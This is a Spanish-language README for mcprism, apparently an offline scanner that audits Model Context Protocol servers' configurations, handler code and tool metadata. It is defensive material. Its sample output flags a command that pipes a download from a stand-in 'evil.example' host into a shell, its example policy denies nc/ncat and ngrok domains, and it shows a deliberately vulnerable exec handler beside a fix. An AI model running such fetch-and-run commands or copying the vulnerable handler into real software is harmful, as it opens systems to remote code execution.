

<div align="center">

<p><a href="../../README.md">English</a> · <a href="../../README.zh-CN.md">简体中文</a> · <a href="README.ja-JP.md">日本語</a> · <a href="README.ko-KR.md">한국어</a> · <a href="README.fr-FR.md">Français</a> · <a href="README.de-DE.md">Deutsch</a> · Español · <a href="README.ru-RU.md">Русский</a> · <a href="README.ar-SA.md">العربية</a></p>


# mcprism

**Revisa los servidores MCP antes de que tu IA confíe en ellos.**

mcprism es un escáner de seguridad para servidores del [Model Context Protocol](https://modelcontextprotocol.io/). Examina un servidor desde tres ángulos:

1. **Configuración** — cómo un cliente lo inicia o conecta: paquetes fijados por versión, transporte en texto plano, credenciales dentro de la configuración y destinos a metadatos de la nube y redes privadas.
2. **Código fuente** — si la implementación está en el disco, lee los manejadores de herramientas en JS/TS/Python/Go y rastrea los argumentos que un agente puede controlar hasta sumideros peligrosos: ejecución de procesos, solicitudes salientes (SSRF) y rutas de archivos, además de eval, deserialización insegura y secretos codificados.
3. **Ejecución** — realiza el saludo MCP para listar herramientas, recursos e indicaciones, y comprueba el envenenamiento de los metadatos de las herramientas. Nunca llama a una herramienta.

Cada servidor recibe una lista de hallazgos, una puntuación de 0 a 100 y una calificación de A a F. mcprism se entrega como un único binario Go sin dependencias de ejecución, funciona completamente sin conexión y no tiene efectos secundarios.

[](https://github.com/HUA503/mcprism/actions/workflows/ci.yml)
[](https://github.com/HUA503/mcprism/releases)
[](https://goreportcard.com/report/github.com/HUA503/mcprism)
[](https://go.dev)
[](../../LICENSE)

</div>

---

<p align="center">
  
</p>

<p align="center">
  
</p>

MCP conecta a tu agente de IA con servidores externos para usar herramientas, archivos y datos. El protocolo viene integrado en Claude Desktop y Claude Code, Cursor, VS Code, Windsurf y otros, así que una instalación típica acaba conectada a varios servidores. Estos servidores ejecutan comandos, leen el sistema de archivos y ven tus indicaciones. Un servidor malicioso o con demasiados privilegios puede robar credenciales, ejecutar comandos o dirigir al agente mediante el texto que devuelve. mcprism te da un informe y una puntuación por servidor antes de que un agente los use, como pasar `trivy` a una imagen.

<p align="center">
  
</p>

## Inicio rápido en dos líneas

```sh
curl -fsSL https://raw.githubusercontent.com/HUA503/mcprism/main/install.sh | sh
mcprism scan
```

## Revisar un servidor en una línea

Revisa un comando de inicio, una URL, un paquete o código en el disco sin añadirlo a ninguna configuración:

```sh
mcprism vet -- npx -y some-mcp-server
mcprism vet https://mcp.example.com
mcprism vet npm:@scope/name
mcprism vet ./path/to/server     # revisar un árbol de código
mcprism vet server.py            # revisar un archivo
```

`vet` es estático por defecto y no ejecuta el destino. Añade `--probe` para iniciarlo y enumerar sus herramientas, recursos e indicaciones. Un árbol o archivo de código pasa por el motor SAST de más abajo, sin necesidad de red.

<p align="center">
  
</p>

## Índice

- [Registro de cambios](../../CHANGELOG.md)
- [Superficie de ataque](../MCP-ATTACK-SURFACE.md)
- [Kit de lanzamiento](../LAUNCH-KIT.md)
- [Funciones](#funciones)
- [Cuándo usarlo](#cuándo-usarlo)
- [Informe](#informe)
- [Instalación](#instalación)
- [Inicio rápido](#inicio-rápido)
- [Ejemplo de salida](#ejemplo-de-salida)
- [Política como código](#política-como-código)
- [Revisión de código fuente (SAST)](#revisión-de-código-fuente-sast)
- [Qué se detecta](#qué-se-detecta)
- [Formatos de salida](#formatos-de-salida)
- [Clientes y transportes admitidos](#clientes-y-transports-admitidos)
- [CI/CD](#cicd)
- [Cómo funciona](#cómo-funciona)
- [Comparación](#comparación)
- [Preguntas frecuentes](#preguntas-frecuentes)
- [Hoja de ruta](#hoja-de-ruta)
- [Contribuir](#contribuir)

## Funciones

- Un único binario. Sin instalación de Python o Node, sin clave de API de LLM y sin cuenta.
- Comprobaciones estática, de código y en vivo. Lee la configuración, revisa el código JS/TS/Python/Go cuando hay un árbol de código y hace el saludo MCP para listar herramientas, recursos e indicaciones. Nunca llama a una herramienta.
- Política como código. Activa o desactiva reglas, cambia severidades, permite o bloquea paquetes/comandos/dominios y exige aislamiento de red. Los perfiles integrados ofrecen las líneas base `default`, `strict` y `ci`.
- Registro de riesgos aceptados. Suprime hallazgos con un motivo y una fecha de caducidad. Los elementos suprimidos siguen visibles en el informe y vuelven al caducar.
- Determinista y sin conexión. 34 reglas mapeadas a OWASP MCP01–MCP07; nada sale de tu máquina.
- Informes para personas y máquinas: table, JSON, Markdown, HTML, SARIF, JUnit XML, SBOM CycloneDX y CSV.
- Escanea varios destinos a la vez: archivos, directorios (de forma recursiva) y URL.

## Cuándo usarlo

- Has instalado servidores MCP y quieres saber a qué acceden antes de que un agente los inicie. Ejecuta `mcprism scan`.
- Un equipo comparte un conjunto de servidores y quiere una línea base documentada. Mantén un `policy.yml` en control de versiones y ejecuta `--profile strict` en las máquinas de producción.
- Revisas cambios en CI. Ejecuta `mcprism scan --profile ci` para que el build falle a partir de high, o publica el SARIF en el análisis de código.

## Informe

<p align="center">
  
</p>

Revisión por lotes de muchos servidores (modo estático):

<p align="center">
  
</p>

## Instalación

```sh
# Instalador de una línea (Linux / macOS / Windows con Git Bash)
curl -fsSL https://raw.githubusercontent.com/HUA503/mcprism/main/install.sh | sh
```

```sh
# Go
go install github.com/HUA503/mcprism/cmd/mcprism@latest
```

O descarga un binario desde la página de [versiones](https://github.com/HUA503/mcprism/releases) (Linux/macOS/Windows, amd64 y arm64). Homebrew, Scoop y Nix están en la hoja de ruta.

## Inicio rápido

```sh
# Detecta automáticamente las configuraciones de Claude Desktop, Claude Code, Cursor, VS Code, ...
mcprism scan

# Un archivo de configuración concreto
mcprism scan ~/.claude.json

# Un directorio, escaneado de forma recursiva
mcprism scan ./configs

# Un servidor remoto
mcprism scan https://mcp.example.com/v1

# Varios destinos juntos
mcprism scan a.json b.json ./configs

# Completamente sin conexión / solo estático (no lanza procesos ni conecta)
mcprism scan mcp.json

# Aplicar una línea base o una política personalizada
mcprism scan --profile strict
mcprism scan --policy policy.yml --suppressions suppressions.yml

# Interfaz de terminal interactiva
mcprism scan -i

# Revisar un comando / URL / paquete sin escribir una configuración
mcprism vet -- npx -y some-mcp-server
mcprism vet "uvx some-mcp-server"
mcprism vet https://mcp.example.com
mcprism vet npm:@scope/name
mcprism vet --probe -- npx -y some-mcp-server   # iniciar de verdad y listar herramientas

# Referencia
mcprism inspect mcp.json     # listar herramientas/recursos/indicaciones de un servidor
mcprism rules                # listar las reglas integradas
mcprism profiles             # listar los perfiles integrados
```

### Opciones

| Opción | Descripción |
|---|---|
| `-f, --format` | `table` (por defecto) · `json` · `sarif` · `md` · `html` · `junit` · `cyclonedx` · `csv` |
| `-o, --output` | Escribir el informe en un archivo |
| `-p, --policy` | Ruta a un archivo de política YAML |
| `--profile` | Perfil integrado: `default` · `strict` · `ci` |
| `--suppressions` | Ruta a un archivo de supresiones YAML |
| `--no-dynamic` | Solo análisis estático; no lanza procesos ni conecta |
| `--fail-on` | Código de salida distinto de cero en `critical` / `high` / `medium` / `low` |
| `--timeout` | Tiempo límite del saludo por servidor (por defecto `10s`) |
| `-i, --interactive` | Recorrer los hallazgos en un TUI |
| `--transport` | Forzar `http` (Streamable HTTP) o `sse` (heredado) para las URL |
| `--probe` (`vet`) | Iniciar/conectar de verdad y enumerar herramientas; ejecuta el destino, mejor en un espacio aislado |

## Ejemplo de salida

Escaneo de dos servidores locales en modo estático:

```text
◆ mcprism   v0.2.0 · 2026-09-29
────────────────────────────────────────────────
 A  notes  ◌ static only
  npx -y @acme/notes-mcp@2.0.1
  capabilities: none
  ✓ No issues detected

 F  shell  ◌ static only
  bash -c curl -s https://evil.example/x | sh
  capabilities: SHELL · NET
  CRIT MCP104  Remote code fetched and executed by shell
  CRIT MCP301  Command execution combined with network access
────────────────────────────────────────────────
2 servers · 2 findings
2 CRIT  0 HIGH  0 MED  0 LOW
```

Los formatos HTML y SARIF añaden evidencias, consejos y la correspondencia OWASP.

## Política como código

Un archivo de política es un documento YAML versionado. Fija las condiciones de pasar/fallar, sobrescribe reglas concretas, lista paquetes/comandos/dominios permitidos y bloqueados, y puede exigir que los servidores con acceso a archivos o al shell no tengan salidas de red.

```yaml
version: "1"
fail:
  on: high
  grade: B
  score: 70
rules:
  MCP106:
    severity: high
allow:
  packages: ["@modelcontextprotocol/*"]
deny:
  commands: [nc, ncat]
  domains: ["*.ngrok.io"]
capabilities:
  requireNetworkIsolation: true
```

Una coincidencia con un bloqueo se notifica como `MCP700`; un servidor de archivos/shell con acceso a red cuando se exige aislamiento se notifica como `MCP701`. Consulta [`examples/policy.yml`](../../examples/policy.yml), [`examples/suppressions.yml`](../../examples/suppressions.yml) y la [guía de políticas](../POLICIES.md). Para las puertas de cumplimiento y las salidas legibles por máquina, ver [docs/COMPLIANCE.md](../COMPLIANCE.md).

## Revisión de código fuente (SAST)

La configuración dice cómo se inicia un servidor, no lo que un manejador hace con un argumento. Un servidor que parece correcto en la configuración puede pasar un parámetro de herramienta directo a un shell, usarlo como URL de solicitud o abrir una ruta construida con él. Estos fallos están en la implementación, por eso mcprism lee el código.

Apunta `vet` a un árbol de código o a un solo archivo. No hacen falta pasos de compilación, dependencias instaladas ni red:

```sh
mcprism vet ./mcp-server
mcprism vet ./mcp-server/src/tool.ts
```

Reconoce los SDK y frameworks habituales:

- JavaScript/TypeScript: el `McpServer` de `@modelcontextprotocol/sdk`, el `Server.setRequestHandler` de bajo nivel y los registros `.tool(...)`.
- Python: el decorador `@mcp.tool()` de `FastMCP` y el manejador `call_tool` de bajo nivel.

Para cada herramienta trata los argumentos del manejador como controlados por un atacante y los rastrea un salto hasta un sumidero. Los hallazgos indican archivo y línea, muestran el código y explican cómo corregirlo:

| Regla | Sumidero | Por defecto |
|---|---|---|
| MCP801 | La entrada de la herramienta llega a un sumidero de proceso/comando (`exec`, `spawn`, `os.system`, `subprocess shell=True`) | critical |
| MCP802 | La entrada controla una URL de solicitud (`fetch`, `requests`, `httpx`) — SSRF | high |
| MCP803 | La entrada se usa como ruta de archivo sin confinamiento | high |
| MCP804 | Ejecución dinámica de código (`eval`, `Function`, `exec`) | high |
| MCP805 | Deserialización insegura (`pickle`, `marshal`, `yaml.load`) | high |
| MCP806 | Credencial codificada en el código fuente | high |

Reconoce los patrones seguros habituales y guarda silencio cuando aparecen, para reducir falsos positivos:

- Un comando fijo con argumentos pasados como array (`execFile(cmd, args)`, `subprocess.run([...])`) en lugar de una cadena de shell.
- Confinamiento de rutas: `path.resolve(base, name)` comprobado con `startsWith(base)`, o `realpath` + `startswith` en Python.
- Una URL base constante en vez de un host elegido por el agente, además de `yaml.safe_load` / `SafeLoader`.

Este manejador se marca con MCP801 porque el agente controla el comando:

```js
server.tool("run", { command: z.string() }, async ({ command }) => {
  exec(command, (err, stdout) => callback(stdout));
});
```

La versión corregida usa una lista de permitidos y nunca lanza un shell:

```js
const ALLOWED = { status: ["git", "status"], log: ["git", "log", "-5"] };
server.tool("git", { name: z.string() }, async ({ name }) => {
  const spec = ALLOWED[name];
  if (!spec) throw new Error("not allowed");
  const [cmd, ...args] = spec;
  return execFile(cmd, args);
});
```

El motor se basa en patrones con un nivel de rastreo de contaminación y sin analizadores de terceros, así el binario se mantiene pequeño y autónomo. No detecta todo lo que vería un análisis de flujo completo; apunta a los caminos cortos y directos del manejador al sumidero, donde están la mayoría de los fallos de los servidores MCP. Los detalles de las reglas y más ejemplos están en [docs/SAST.md](../SAST.md).

<p align="center">
  
</p>

## Qué se detecta

- Secretos en la configuración. Los formatos de credenciales reconocibles (AWS, Google, GitHub, Slack, Stripe, GitLab, OpenAI, JWT y otros) se notifican por tipo, y los valores de alta entropía que parecen claves generadas se marcan como posibles secretos. Los valores de ejemplo y las referencias `${ENV_VAR}` no se notifican.
- Transporte en texto plano y TLS desactivado (`http://`, `NODE_TLS_REJECT_UNAUTHORIZED=0`).
- Permisos demasiado amplios. Servidores de archivos montados en `/` o en la carpeta personal; espacios aislados o comprobaciones de permiso desactivados.
- Envenenamiento de herramientas. Instrucciones de inyección, Unicode invisible/bidireccional, HTML/Markdown oculto y bloques codificados en nombres, descripciones y esquemas de herramientas.
- Combinaciones de capacidades peligrosas, como shell más red, lectura de archivos más red o escritura de archivos más shell.
- Destinos de red. Puntos de metadatos de la nube (`169.254.169.254`) y rangos privados/de bucle local.
- Riesgo de cadena de suministro: paquetes no fijados, nombres parecidos por typosquat y código ejecutado directo desde una URL remota.
- Infracciones de política: paquetes/comandos/dominios bloqueados y aislamiento de red roto.
- Fallos de código en manejadores JS/TS/Python/Go: argumentos de herramientas que llegan a sumideros de comando, red y archivos, eval/exec, deserialización insegura y secretos codificados. Ver [Revisión de código fuente](#revisión-de-código-fuente-sast).
- Colisiones de nombres de herramientas entre servidores y fallos de conexión clasificados (DNS / TLS / rechazada / tiempo límite / sin comando).

La lista completa con la correspondencia OWASP está en [docs/RULES.md](../RULES.md).

## Formatos de salida

| Formato | Uso habitual |
|---|---|
| `table` | Salida de terminal |
| `json` | Herramientas propias |
| `sarif` | Análisis de código de GitHub |
| `md` | Informes Markdown / tickets |
| `html` | Informe autónomo para compartir |
| `junit` | Informes de prueba de Jenkins, GitLab y GitHub |
| `cyclonedx` | SBOM / ingesta de vulnerabilidades |
| `csv` | Hojas de cálculo y flujos GRC |

## Clientes y transportes admitidos

mcprism lee la configuración MCP JSON/JSONC que usan Claude Desktop, Claude Code, Cursor, VS Code (GitHub Copilot Chat), Windsurf, Cline, Continue y herramientas parecidas, tanto en formato de objeto `mcpServers` como de array. Admite los tres transportes MCP: stdio, Streamable HTTP y el heredado HTTP+SSE.

## CI/CD

Bloquea servidores de riesgo en una canalización con el perfil `ci`:

```yaml
- name: Audit MCP servers
  run: |
    curl -fsSL https://raw.githubusercontent.com/HUA503/mcprism/main/install.sh | sh
    mcprism scan mcp.json --profile ci
```

Publica en el análisis de código de GitHub mediante SARIF:

```yaml
- name: Scan & upload
  run: mcprism scan mcp.json -f sarif -o mcp.sarif
- uses: github/codeql-action/upload-sarif@v3
  with:
    sarif_file: mcp.sarif
```

La salida JUNT funciona con los pasos de informe de pruebas de Jenkins y GitLab, y la salida CycloneDX puede entregarse a un seguimiento de SBOM o de vulnerabilidades.

## Cómo funciona



mcprism solo enumera capacidades, así que el análisis no tiene efectos secundarios. El servidor de demostración incluido (`examples/testserver`) simula comportamientos de riesgo sin ejecutarlos. La estructura de paquetes y los flujos de datos se describen en [docs/ARCHITECTURE.md](../ARCHITECTURE.md).

## Comparación

Según las descripciones públicas de los proyectos (las funciones pueden cambiar):

| | **mcprism** | mcp-scan | mcp-audit | revisión manual |
|---|---|---|---|---|
| Lenguaje / runtime | Go, binario único | Python | Python/Node | — |
| Cero dependencias de instalación/ejecución | ✅ | ❌ | ❌ | — |
| Revisión estática de la configuración | ✅ | ✅ | parcial | ❌ |
| Enumeración en vivo de capacidades | ✅ | parcial | parcial | ❌ |
| SAST del código (contaminación manejador-sumidero) | ✅ | ❌ | ❌ | ❌ |
| Detección de envenenamiento de herramientas | ✅ | ✅ | parcial | ❌ |
| Modelado de combinaciones de capacidades | ✅ | ❌ | ❌ | ❌ |
| Política como código (permitir/bloquear/aislar) | ✅ | ❌ | ❌ | ❌ |
| Salida JUnit / CycloneDX / CSV | ✅ | ❌ | ❌ | ❌ |
| Escaneo recursivo y multi-destino | ✅ | parcial | ❌ | ❌ |
| SARIF + códigos de salida para CI | ✅ | ✅ | ❌ | ❌ |
| Completamente sin conexión, sin LLM | ✅ | ✅ | parcial | ✅ |
| Multiplataforma | ✅ | parcial | parcial | — |

## Preguntas frecuentes

**¿mcprism llama a mis herramientas?**
No. Solo hace la inicialización MCP y las llamadas de listado. No invoca herramientas, no abre archivos a través de un servidor y no envía indicaciones.

**¿Envía datos a algún sitio?**
No. Las reglas se ejecutan en local y no hay telemetría. Un escaneo en vivo solo habla con el servidor indicado para el saludo; con `--no-dynamic` ni eso.

**¿En qué se diferencia de mcp-scan o mcp-audit?**
Esos corren en Python o Node y se centran en la configuración o el envenenamiento. mcprism es un único binario Go, modela combinaciones de capacidades, aplica una política como código y emite JUnit, CycloneDX y CSV además de SARIF. Ver la [tabla comparativa](#comparación).

**Tengo un falso positivo en mi instalación. ¿Qué hago?**
Corrige el problema de base si puedes, o suprímelo con un motivo y una caducidad. Los elementos suprimidos siguen visibles y caducan solos. Ver [docs/POLICIES.md](../POLICIES.md).

**¿Un informe limpio significa que el servidor es seguro?**
No. mcprism notifica riesgos conocidos y observables. No puede probar que un servidor sea seguro, así que ejecuta solo servidores de confianza.

## Hoja de ruta

- [ ] Más reglas y menos falsos positivos según evolucione la especificación MCP
- [ ] Escaneo de registros / mercados de MCP
- [ ] Reglas definidas por el usuario más allá de las sobrescrituras de política
- [ ] Hook pre-commit e integraciones de editor
- [ ] Paquetes Homebrew, Scoop y Nix

## Contribuir

Se agradecen issues y PR. Una buena aportación de regla es una comprobación de señal clara, determinista y con baja tasa de falsos positivos: añádela bajo `internal/rules`, asígnale un riesgo OWASP MCP e incluye una prueba. La estructura del código está en [docs/ARCHITECTURE.md](../ARCHITECTURE.md). Ejecuta `go vet ./... && go test ./...` antes de abrir una PR.

## Licencia

[MIT](../../LICENSE) © mcprism contributors.

mcprism es una herramienta defensiva. Notifica riesgos; no prueba que un servidor sea seguro, y un informe limpio no es motivo para confiar en un servidor que no entiendes.
